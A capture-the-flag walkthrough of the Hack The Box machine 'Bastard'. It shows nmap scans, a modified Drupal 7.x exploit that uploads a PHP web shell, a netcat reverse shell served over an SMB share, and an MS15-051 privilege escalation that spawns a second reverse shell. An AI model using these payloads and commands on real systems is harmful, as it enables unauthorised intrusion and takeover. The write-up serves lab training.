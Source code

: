 # [Bastard](https://app.hackthebox.com/machines/bastard)

```bash
nmap -p- --min-rate 10000  10.10.10.9 -Pn
```

![Alt text](img/image.png)


I see that ports (80,135) are open, let's do greater nmap scan for them.


```bash
nmap -A -sC -sV -p80,135 10.10.10.9 -Pn
```

![Alt text](img/image-1.png)


I see that port 80 is 'Drupal' website and version of this is 'Drupal 7.54'.

![Alt text](img/image-2.png)


Let's check publicly known exploit for this version of 'Drupal'

![Alt text](img/image-3.png)


Let's try to use it.

```bash
searchsploit -m 41564
```

Again, I changed some stuff from this script as below.
```bash
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'dr4ks.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

After this, I just run php file via `php 41564.php` on Terminal.

![Alt text](img/image-4.png)


Now, we can browse our webshell `dr4ks.php` on our target to run Windows OS commands.

![Alt text](img/image-5.png)


Now, it's time to add reverse shell.

First, I open my SMB share on attacker machine via below command.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share nc
```
![Alt text](img/image-8.png)

![Alt text](img/image-7.png)



Then, I browse below payload into my `webshell`

```bash
\\10.10.14.9\share\nc.exe%20-e%20cmd.exe%2010.10.14.9%201337
```


I got shell from my listener (1337).

```bash
nc -nlvp 1337
```

![Alt text](img/image-6.png)



user.txt

![Alt text](img/image-9.png)


For privesc, I run `systeminfo` command.

![Alt text](img/image-10.png)


I found `MS15-051` vulnerability for our target machine.

Let's download this vulnerability's executable.

And run SMB share.

![Alt text](img/image-13.png)

Then, run command on windows shell.

```bash
\\10.10.14.9\share\ms15-051x64.exe "\\10.10.14.9\share\nc.exe -e cmd.exe 10.10.14.9 1338"
```

![Alt text](img/image-11.png)

I run also listener to get reverse shell.

![Alt text](img/image-12.png)

root.txt

![Alt text](img/image-14.png)